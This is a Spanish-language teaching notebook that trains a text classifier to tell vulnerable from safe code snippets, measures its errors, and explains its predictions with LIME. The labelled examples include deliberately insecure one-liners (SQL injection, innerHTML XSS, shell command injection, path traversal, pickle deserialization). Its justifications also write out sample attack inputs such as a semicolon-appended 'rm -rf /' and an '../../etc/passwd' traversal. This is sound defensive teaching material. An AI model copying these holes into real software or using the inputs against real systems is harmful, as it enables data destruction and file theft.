Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,innerHTML,-0.028715,disminuye probabilidad de vulnerable
1,document,0.025220,aumenta probabilidad de vulnerable
2,profile,-0.024308,disminuye probabilidad de vulnerable
3,name,-0.023752,disminuye probabilidad de vulnerable
4,getElementById,0.010741,aumenta probabilidad de vulnerable
5,h1,-0.000146,disminuye probabilidad de vulnerable
6,request,-0.000134,disminuye probabilidad de vulnerable
7,params,-0.000106,disminuye probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: document, getElementById. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.


Caso: Command Injection
Predicción del modelo: seguro
Probabilidad seguro: 0.9056
Probabilidad vulnerable: 0.0944

Código:
subprocess.call('ping -c 1 ' + host, shell=True)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,True,-0.174075,disminuye probabilidad de vulnerable
1,subprocess,-0.133015,disminuye probabilidad de vulnerable
2,1,-0.063895,disminuye probabilidad de vulnerable
3,host,-0.007451,disminuye probabilidad de vulnerable
4,c,-0.006371,disminuye probabilidad de vulnerable
5,shell,-0.004707,disminuye probabilidad de vulnerable
6,ping,-0.003623,disminuye probabilidad de vulnerable
7,call,-0.003490,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.


Caso: Ejecución dinámica con eval
Predicción del modelo: seguro
Probabilidad seguro: 0.7897
Probabilidad vulnerable: 0.2103

Código:
result = eval(request.GET.get('expression'))

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,expression,-8.748808e-02,disminuye probabilidad de vulnerable
1,GET,1.094521e-05,aumenta probabilidad de vulnerable
2,eval,8.920917e-06,aumenta probabilidad de vulnerable
3,request,8.616920e-06,aumenta probabilidad de vulnerable
4,result,2.487779e-06,aumenta probabilidad de vulnerable
5,get,6.990748e-07,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: GET, eval, request, result, get. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.


Caso: Path Traversal
Predicción del modelo: seguro
Probabilidad seguro: 0.6917
Probabilidad vulnerable: 0.3083

Código:
file_content = open('/var/www/files/' + request.args.get('filename')).read()

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,filename,-0.071921,disminuye probabilidad de vulnerable
1,open,-0.054992,disminuye probabilidad de vulnerable
2,files,0.002864,aumenta probabilidad de vulnerable
3,www,0.002811,aumenta probabilidad de vulnerable
4,var,0.002769,aumenta probabilidad de vulnerable
5,args,0.000321,aumenta probabilidad de vulnerable
6,file_content,0.000259,aumenta probabilidad de vulnerable
7,get,0.000179,aumenta probabilidad de vulnerable
8,request,0.000030,aumenta probabilidad de vulnerable
9,read,-0.000021,disminuye probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: files, www, var, args, file_content, get. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.


Caso: Deserialización insegura
Predicción del modelo: seguro
Probabilidad seguro: 0.965
Probabilidad vulnerable: 0.035

Código:
obj = pickle.loads(request.data)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,obj,0.0,disminuye probabilidad de vulnerable
1,pickle,0.0,disminuye probabilidad de vulnerable
2,loads,0.0,disminuye probabilidad de vulnerable
3,request,0.0,disminuye probabilidad de vulnerable
4,data,0.0,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.


In [18]:
def explicar_fragmento_con_lime(codigo, caso, num_features=10):
    pred_proba = model.predict_proba([codigo])[0]
    pred_label = int(np.argmax(pred_proba))

    exp_local = explainer.explain_instance(
        codigo,
        predict_proba_for_lime,
        num_features=num_features,
        labels=[0, 1],
    )

    pesos_vulnerable = pd.DataFrame(
        exp_local.as_list(label=1),
        columns=["token_o_patron", "peso_hacia_vulnerable"]
    )
    pesos_vulnerable["influencia"] = np.where(
        pesos_vulnerable["peso_hacia_vulnerable"] > 0,
        "aumenta probabilidad de vulnerable",
        "disminuye probabilidad de vulnerable"
    )

    print("=" * 100)
    print("Caso:", caso)
    print("Predicción del modelo:", class_names[pred_label])
    print("Probabilidad seguro:", round(pred_proba[0], 4))
    print("Probabilidad vulnerable:", round(pred_proba[1], 4))
    print("\nCódigo:")
    print(codigo)
    print("\nTokens o patrones que influyeron según LIME para la clase 'vulnerable':")
    display(pesos_vulnerable)

    plt.figure(figsize=(8, 4))
    sns.barplot(data=pesos_vulnerable, x="peso_hacia_vulnerable", y="token_o_patron", orient="h")
    plt.axvline(0, color="black", linewidth=1)
    plt.title(f"LIME: influencia hacia 'vulnerable' - {caso}")
    plt.xlabel("Peso hacia la clase vulnerable")
    plt.ylabel("Token o patrón")
    plt.show()

    tokens_positivos = pesos_vulnerable[pesos_vulnerable["peso_hacia_vulnerable"] > 0]["token_o_patron"].tolist()
    if tokens_positivos:
        print("Interpretación:")
        print(
            "El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: "
            + ", ".join(tokens_positivos[:6])
            + ". Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras."
        )
    else:
        print("Interpretación:")
        print("LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.")


# Explicar todos los fragmentos vulnerables nuevos.
for item in fragmentos_vulnerables_nuevos:
    explicar_fragmento_con_lime(item["codigo"], item["caso"], num_features=10)

### Preguntas de análisis para estudiantes

1. ¿Qué tokens aumentaron más la probabilidad de `vulnerable`?
2. ¿Coinciden esos tokens con el riesgo real del fragmento?
3. ¿Hubo algún fragmento vulnerable clasificado como `seguro`?
4. ¿Qué limitaciones tiene explicar código fuente como si fuera texto?
5. ¿Cómo mejoraría el modelo para reconocer patrones semánticos, no solo tokens?

### Nota metodológica

Si el modelo fue entrenado con ejemplos sintéticos, sus explicaciones también reflejarán esos ejemplos sintéticos. Para un proyecto real, use datos balanceados y reales con fragmentos seguros y vulnerables, revise falsos positivos/falsos negativos y valide con herramientas de seguridad adicionales.

## Reto para estudiantes

1. Cambia el modelo por `LinearSVC`, `RandomForestClassifier` o `XGBoost` si está disponible.
2. Ajusta `ngram_range`, `max_features` y `min_df` del vectorizador.
3. Reporta cuál métrica priorizarías en un sistema real de seguridad y por qué.
4. Identifica 5 falsos positivos y 5 falsos negativos.
5. Propón mejoras para pasar de fragmentos aislados a análisis de repositorios completos.

## Criterios de evaluación sugeridos

| Criterio | Peso |
|---|---:|
| Carga y exploración correcta del dataset | 20% |
| Limpieza y normalización de etiquetas | 15% |
| Entrenamiento reproducible del modelo | 20% |
| Evaluación con métricas adecuadas | 20% |
| Explicación con LIME e interpretación crítica | 15% |
| Discusión de limitaciones y uso responsable | 10% |

## Cierre

La minería de datos aplicada a ciberseguridad permite identificar patrones asociados a vulnerabilidades, pero los modelos dependen fuertemente de los datos de entrenamiento. En escenarios reales, estos modelos deben combinarse con análisis estático, pruebas dinámicas, revisión humana y prácticas de desarrollo seguro.

---
# Actividad de reto: detector explicable de código vulnerable

Esta sección desarrolla la actividad de `Actividad_Taller_01.md`:

1. Selección y etiquetado manual de **10 fragmentos nuevos** (5 vulnerables, 5 seguros) en varios lenguajes.
2. Evaluación con el **modelo original** del notebook (probabilidades y acierto).
3. Análisis de errores (falsos positivos / falsos negativos).
4. **Propuesta de mejora** implementada y comparada con el modelo original.
5. Explicabilidad con **LIME** de 3 fragmentos clasificados como `vulnerable`.

> Ninguno de los 10 fragmentos aparece en el dataset de entrenamiento: funcionan como un conjunto de prueba externo.

## R1. Selección y etiquetado manual de fragmentos

In [19]:
fragmentos = [
 {
  "tipo": "SQL Injection (Python f-string)",
  "lenguaje": "Python",
  "etiqueta_real": "vulnerable",
  "codigo": "cursor.execute(f\"SELECT * FROM orders WHERE customer_id = {request.args['id']}\")",
  "justificacion": "La entrada del usuario se interpola directamente en la consulta SQL; un valor como 1 OR 1=1 altera la consulta."
 },
 {
  "tipo": "XSS (innerHTML)",
  "lenguaje": "JavaScript",
  "etiqueta_real": "vulnerable",
  "codigo": "commentBox.innerHTML = '<p>' + params.get('comment') + '</p>';",
  "justificacion": "Inserta texto controlado por el usuario como HTML sin escapar; permite inyectar <script> o atributos onerror."
 },
 {
  "tipo": "Command Injection",
  "lenguaje": "PHP",
  "etiqueta_real": "vulnerable",
  "codigo": "$out = shell_exec(\"ping -c 4 \" . $_GET['host']);",
  "justificacion": "Concatena un parametro GET en un comando de shell; host=8.8.8.8;rm -rf / ejecuta comandos arbitrarios."
 },
 {
  "tipo": "Path Traversal",
  "lenguaje": "Java",
  "etiqueta_real": "vulnerable",
  "codigo": "File report = new File(\"/srv/reports/\" + request.getParameter(\"name\")); return Files.readAllBytes(report.toPath());",
  "justificacion": "La ruta se construye con entrada del usuario sin normalizar; name=../../etc/passwd lee archivos fuera del directorio."
 },
 {
  "tipo": "Deserializacion insegura",
  "lenguaje": "Python",
  "etiqueta_real": "vulnerable",
  "codigo": "session = pickle.loads(base64.b64decode(request.cookies.get('session')))",
  "justificacion": "pickle ejecuta codigo al deserializar; una cookie manipulada permite ejecucion remota de codigo."
 },
 {
  "tipo": "Consulta parametrizada",
  "lenguaje": "Java",
  "etiqueta_real": "seguro",
  "codigo": "PreparedStatement ps = conn.prepareStatement(\"SELECT * FROM orders WHERE customer_id = ?\"); ps.setInt(1, customerId);",
  "justificacion": "Usa un PreparedStatement con parametro enlazado; la entrada nunca se interpreta como SQL."
 },
 {
  "tipo": "Salida con textContent",
  "lenguaje": "JavaScript",
  "etiqueta_real": "seguro",
  "codigo": "commentBox.textContent = params.get('comment');",
  "justificacion": "textContent trata la entrada como texto plano; el navegador no interpreta etiquetas HTML."
 },
 {
  "tipo": "Comando sin shell",
  "lenguaje": "Python",
  "etiqueta_real": "seguro",
  "codigo": "subprocess.run([\"ping\", \"-c\", \"4\", host], shell=False, check=True, timeout=10)",
  "justificacion": "Pasa los argumentos como lista y sin shell; los metacaracteres ; | & no se interpretan."
 },
 {
  "tipo": "Ruta validada",
  "lenguaje": "Python",
  "etiqueta_real": "seguro",
  "codigo": "full = os.path.realpath(os.path.join(BASE_DIR, name))\nif not full.startswith(BASE_DIR + os.sep):\n    abort(403)\nreturn send_file(full)",
  "justificacion": "Normaliza la ruta con realpath y verifica que quede dentro del directorio base antes de abrirla."
 },
 {
  "tipo": "Deserializacion con JSON",
  "lenguaje": "Python",
  "etiqueta_real": "seguro",
  "codigo": "payload = json.loads(request.get_data(as_text=True))",
  "justificacion": "JSON solo produce datos (dict, list, str, numeros); no puede ejecutar codigo al cargarse."
 }
]

df_frag = pd.DataFrame(fragmentos)
df_frag.index = range(1, len(df_frag) + 1)
df_frag.index.name = "N.º"
display(df_frag[["tipo", "lenguaje", "etiqueta_real", "justificacion"]])
for i, f in df_frag.iterrows():
    print(f"[{i}] ({f['etiqueta_real']}) {f['tipo']} - {f['lenguaje']}\n{f['codigo']}\n")

,tipo,lenguaje,etiqueta_real,justificacion
N.º,,,,
1,SQL Injection (Python f-string),Python,vulnerable,La entrada del usuario se interpola directamente en la consulta SQL; un valor como 1 OR 1=1 altera la consulta.
2,XSS (innerHTML),JavaScript,vulnerable,Inserta texto controlado por el usuario como HTML sin escapar; permite inyectar <script> o atributos onerror.
3,Command Injection,PHP,vulnerable,Concatena un parametro GET en un comando de shell; host=8.8.8.8;rm -rf / ejecuta comandos arbitrarios.
4,Path Traversal,Java,vulnerable,La ruta se construye con entrada del usuario sin normalizar; name=../../etc/passwd lee archivos fuera del directorio.
5,Deserializacion insegura,Python,vulnerable,pickle ejecuta codigo al deserializar; una cookie manipulada permite ejecucion remota de codigo.
6,Consulta parametrizada,Java,seguro,Usa un PreparedStatement con parametro enlazado; la entrada nunca se interpreta como SQL.
7,Salida con textContent,JavaScript,seguro,textContent trata la entrada como texto plano; el navegador no interpreta etiquetas HTML.
8,Comando sin shell,Python,seguro,Pasa los argumentos como lista y sin shell; los metacaracteres ; | & no se interpretan.
9,Ruta validada,Python,seguro,Normaliza la ruta con realpath y verifica que quede dentro del directorio base antes de abrirla.


[1] (vulnerable) SQL Injection (Python f-string) - Python
cursor.execute(f"SELECT * FROM orders WHERE customer_id = {request.args['id']}")

[2] (vulnerable) XSS (innerHTML) - JavaScript
commentBox.innerHTML = '<p>' + params.get('comment') + '</p>';

[3] (vulnerable) Command Injection - PHP
$out = shell_exec("ping -c 4 " . $_GET['host']);

[4] (vulnerable) Path Traversal - Java
File report = new File("/srv/reports/" + request.getParameter("name")); return Files.readAllBytes(report.toPath());

[5] (vulnerable) Deserializacion insegura - Python
session = pickle.loads(base64.b64decode(request.cookies.get('session')))

[6] (seguro) Consulta parametrizada - Java
PreparedStatement ps = conn.prepareStatement("SELECT * FROM orders WHERE customer_id = ?"); ps.setInt(1, customerId);

[7] (seguro) Salida con textContent - JavaScript
commentBox.textContent = params.get('comment');

[8] (seguro) Comando sin shell - Python
subprocess.run(["ping", "-c", "4", host], shell=False, check=True, timeout=10)

## R2. Evaluación con el modelo original del notebook

In [20]:
def evaluar(modelo, nombre):
    probs = modelo.predict_proba(df_frag["codigo"].tolist())
    t = pd.DataFrame({
        "Tipo de fragmento": df_frag["tipo"],
        "Etiqueta real": df_frag["etiqueta_real"],
        "Predicción del modelo": np.where(probs[:, 1] >= 0.5, "vulnerable", "seguro"),
        "Prob. seguro": probs[:, 0].round(4),
        "Prob. vulnerable": probs[:, 1].round(4),
    }, index=df_frag.index)
    t["¿Correcto?"] = np.where(t["Etiqueta real"] == t["Predicción del modelo"], "Sí", "No")
    aciertos = (t["¿Correcto?"] == "Sí").sum()
    print(f"{nombre}: {aciertos}/{len(t)} aciertos ({aciertos / len(t):.0%})")
    return t

tabla_original = evaluar(model, "Modelo original")
display(tabla_original)

Modelo original: 7/10 aciertos (70%)


,Tipo de fragmento,Etiqueta real,Predicción del modelo,Prob. seguro,Prob. vulnerable,¿Correcto?
N.º,,,,,,
1,SQL Injection (Python f-string),vulnerable,seguro,0.8016,0.1984,No
2,XSS (innerHTML),vulnerable,vulnerable,0.2418,0.7582,Sí
3,Command Injection,vulnerable,vulnerable,0.1901,0.8099,Sí
4,Path Traversal,vulnerable,seguro,0.8617,0.1383,No
5,Deserializacion insegura,vulnerable,seguro,0.9024,0.0976,No
6,Consulta parametrizada,seguro,seguro,0.9455,0.0545,Sí
7,Salida con textContent,seguro,seguro,0.8753,0.1247,Sí
8,Comando sin shell,seguro,seguro,0.8743,0.1257,Sí
9,Ruta validada,seguro,seguro,0.9840,0.0160,Sí


## R3. Análisis de errores del modelo original

In [21]:
def errores(t):
    fp = t[(t["Etiqueta real"] == "seguro") & (t["Predicción del modelo"] == "vulnerable")]
    fn = t[(t["Etiqueta real"] == "vulnerable") & (t["Predicción del modelo"] == "seguro")]
    print(f"Falsos positivos (seguro -> vulnerable): {len(fp)}")
    if len(fp): display(fp)
    print(f"Falsos negativos (vulnerable -> seguro): {len(fn)}")
    if len(fn): display(fn)
    y_true = (t["Etiqueta real"] == "vulnerable").astype(int)
    y_hat = (t["Predicción del modelo"] == "vulnerable").astype(int)
    print(classification_report(y_true, y_hat, target_names=["seguro", "vulnerable"], digits=3, zero_division=0))

errores(tabla_original)

Falsos positivos (seguro -> vulnerable): 0
Falsos negativos (vulnerable -> seguro): 3


,Tipo de fragmento,Etiqueta real,Predicción del modelo,Prob. seguro,Prob. vulnerable,¿Correcto?
N.º,,,,,,
1,SQL Injection (Python f-string),vulnerable,seguro,0.8016,0.1984,No
4,Path Traversal,vulnerable,seguro,0.8617,0.1383,No
5,Deserializacion insegura,vulnerable,seguro,0.9024,0.0976,No


              precision    recall  f1-score   support

      seguro      0.625     1.000     0.769         5
  vulnerable      1.000     0.400     0.571         5

    accuracy                          0.700        10
   macro avg      0.812     0.700     0.670        10
weighted avg      0.812     0.700     0.670        10



### Diagnóstico del modelo original

Antes de mejorar el modelo se revisó **cómo se entrenó**:

In [22]:
print("Columna usada como código:", CODE_COL)
print("Fragmentos únicos de Kaggle:", df["Code Snippet"].nunique(), "de", len(df))
print("Tipos de vulnerabilidad en Kaggle:", df["Vulnerability Type"].value_counts().to_dict())
print("\nEjemplo de texto con el que se entrenó (clase vulnerable):")
print(data.loc[data.label == 1, "code"].iloc[0])
print("\nEjemplo de texto con el que se entrenó (clase seguro):")
print(data.loc[data.label == 0, "code"].iloc[0])
print("\nFragmentos únicos de la clase seguro (sin el comentario):",
      data.loc[data.label == 0, "code"].str.replace(r"\s+#\s*safe_example_\d+$", "", regex=True).nunique())

Columna usada como código: Preprocessed Tokens
Fragmentos únicos de Kaggle: 10 de 1000
Tipos de vulnerabilidad en Kaggle: {'SQLi': 500, 'XSS': 500}

Ejemplo de texto con el que se entrenó (clase vulnerable):
["cursor.execute('SELECT", '*', 'FROM', 'users', 'WHERE', 'username', '=', "'", '+', 'user_input)']

Ejemplo de texto con el que se entrenó (clase seguro):
cursor.execute('SELECT * FROM users WHERE id = ?', (user_id,))  # safe_example_0

Fragmentos únicos de la clase seguro (sin el comentario): 10


## R4. Propuesta de mejora implementada

In [23]:
from sklearn.pipeline import FeatureUnion
from sklearn.model_selection import cross_val_score

def quitar_marca(s):
    # Elimina el comentario '# safe_example_N' / '# vulnerable_example_N' (fuga de información)
    return re.sub(r"\s+#\s*(safe|vulnerable)_example_\d+$", "", s)

# 1) Código real (Code Snippet) en lugar de la lista de tokens; 2) más tipos de vulnerabilidad;
# 3) sin la marca de fuga; 4) sin duplicados.
vuln_kaggle = pd.DataFrame({"code": df["Code Snippet"].astype(str), "label": 1})
vuln_extra = build_synthetic_vulnerable_examples(n=10)[["code", "label"]]   # cmd, path, pickle, eval, md5...
seguros = build_synthetic_safe_examples(n=10)[["code", "label"]]
data_mejorada = pd.concat([vuln_kaggle, vuln_extra, seguros], ignore_index=True)
data_mejorada["code"] = data_mejorada["code"].map(quitar_marca)
data_mejorada = data_mejorada.drop_duplicates("code").reset_index(drop=True)
print("Dataset mejorado (ejemplos únicos):", data_mejorada["label"].map({1: "vulnerable", 0: "seguro"}).value_counts().to_dict())

# 5) Representación combinada: n-gramas de palabras + n-gramas de caracteres (más robusta entre lenguajes)
model_mejorado = Pipeline([
    ("tfidf", FeatureUnion([
        ("palabras", TfidfVectorizer(lowercase=True, token_pattern=token_pattern, ngram_range=(1, 2))),
        ("caracteres", TfidfVectorizer(lowercase=True, analyzer="char_wb", ngram_range=(2, 5), sublinear_tf=True)),
    ])),
    ("clf", LogisticRegression(max_iter=2000, class_weight="balanced", C=10, random_state=RANDOM_STATE)),
])
model_mejorado.fit(data_mejorada["code"], data_mejorada["label"])

cv = cross_val_score(model_mejorado, data_mejorada["code"], data_mejorada["label"], cv=5, scoring="f1_macro")
print(f"F1-macro con validación cruzada (5 folds, sin duplicados): {cv.mean():.3f} ± {cv.std():.3f}")

Dataset mejorado (ejemplos únicos): {'vulnerable': 20, 'seguro': 10}


F1-macro con validación cruzada (5 folds, sin duplicados): 0.432 ± 0.100


In [24]:
tabla_mejorada = evaluar(model_mejorado, "Modelo mejorado")
display(tabla_mejorada)
errores(tabla_mejorada)

Modelo mejorado: 9/10 aciertos (90%)


,Tipo de fragmento,Etiqueta real,Predicción del modelo,Prob. seguro,Prob. vulnerable,¿Correcto?
N.º,,,,,,
1,SQL Injection (Python f-string),vulnerable,vulnerable,0.2627,0.7373,Sí
2,XSS (innerHTML),vulnerable,vulnerable,0.1614,0.8386,Sí
3,Command Injection,vulnerable,vulnerable,0.3693,0.6307,Sí
4,Path Traversal,vulnerable,vulnerable,0.2780,0.7220,Sí
5,Deserializacion insegura,vulnerable,vulnerable,0.1959,0.8041,Sí
6,Consulta parametrizada,seguro,seguro,0.6151,0.3849,Sí
7,Salida con textContent,seguro,seguro,0.6810,0.3190,Sí
8,Comando sin shell,seguro,seguro,0.5523,0.4477,Sí
9,Ruta validada,seguro,seguro,0.8515,0.1485,Sí


Falsos positivos (seguro -> vulnerable): 1


,Tipo de fragmento,Etiqueta real,Predicción del modelo,Prob. seguro,Prob. vulnerable,¿Correcto?
N.º,,,,,,
10,Deserializacion con JSON,seguro,vulnerable,0.258,0.742,No


Falsos negativos (vulnerable -> seguro): 0
              precision    recall  f1-score   support

      seguro      1.000     0.800     0.889         5
  vulnerable      0.833     1.000     0.909         5

    accuracy                          0.900        10
   macro avg      0.917     0.900     0.899        10
weighted avg      0.917     0.900     0.899        10



,Tipo,Real,P(vuln) original,Pred. original,P(vuln) mejorado,Pred. mejorado
N.º,,,,,,
1,SQL Injection (Python f-string),vulnerable,0.1984,seguro,0.7373,vulnerable
2,XSS (innerHTML),vulnerable,0.7582,vulnerable,0.8386,vulnerable
3,Command Injection,vulnerable,0.8099,vulnerable,0.6307,vulnerable
4,Path Traversal,vulnerable,0.1383,seguro,0.7220,vulnerable
5,Deserializacion insegura,vulnerable,0.0976,seguro,0.8041,vulnerable
6,Consulta parametrizada,seguro,0.0545,seguro,0.3849,seguro
7,Salida con textContent,seguro,0.1247,seguro,0.3190,seguro
8,Comando sin shell,seguro,0.1257,seguro,0.4477,seguro
9,Ruta validada,seguro,0.0160,seguro,0.1485,seguro




In [25]:
comparacion = pd.DataFrame({
    "Tipo": df_frag["tipo"],
    "Real": df_frag["etiqueta_real"],
    "P(vuln) original": tabla_original["Prob. vulnerable"],
    "Pred. original": tabla_original["Predicción del modelo"],
    "P(vuln) mejorado": tabla_mejorada["Prob. vulnerable"],
    "Pred. mejorado": tabla_mejorada["Predicción del modelo"],
})
display(comparacion)

ax = comparacion.set_index("Tipo")[["P(vuln) original", "P(vuln) mejorado"]].plot.barh(figsize=(9, 5))
ax.axvline(0.5, color="black", linestyle="--", linewidth=1)
ax.set_xlabel("Probabilidad de 'vulnerable'"); ax.set_title("Original vs. mejorado en los 10 fragmentos nuevos")
ax.invert_yaxis(); plt.tight_layout(); plt.show()

## R5. Explicabilidad con LIME (3 fragmentos clasificados como `vulnerable`)

[1] SQL Injection (Python f-string) (modelo mejorado) | real=vulnerable | P(seguro)=0.263 P(vulnerable)=0.737
cursor.execute(f"SELECT * FROM orders WHERE customer_id = {request.args['id']}")


,token,peso_hacia_vulnerable
0,cursor,-0.142835
1,request,0.126608
2,execute,-0.075491
3,args,0.067144
4,SELECT,0.037718
5,customer_id,0.037128
6,f,0.022102
7,WHERE,0.019817




[3] Command Injection (modelo mejorado) | real=vulnerable | P(seguro)=0.369 P(vulnerable)=0.631
$out = shell_exec("ping -c 4 " . $_GET['host']);


,token,peso_hacia_vulnerable
0,shell_exec,0.070118
1,$_GET,0.019501
2,$out,0.013517
3,host,0.006091
4,ping,-0.002859
5,4,0.000412
6,c,0.000402




[5] Deserializacion insegura (modelo mejorado) | real=vulnerable | P(seguro)=0.196 P(vulnerable)=0.804
session = pickle.loads(base64.b64decode(request.cookies.get('session')))


,token,peso_hacia_vulnerable
0,request,0.141478
1,get,0.084404
2,loads,0.068757
3,session,-0.062556
4,pickle,0.059084
5,b64decode,-0.011363
6,base64,-0.009998
7,cookies,0.006704


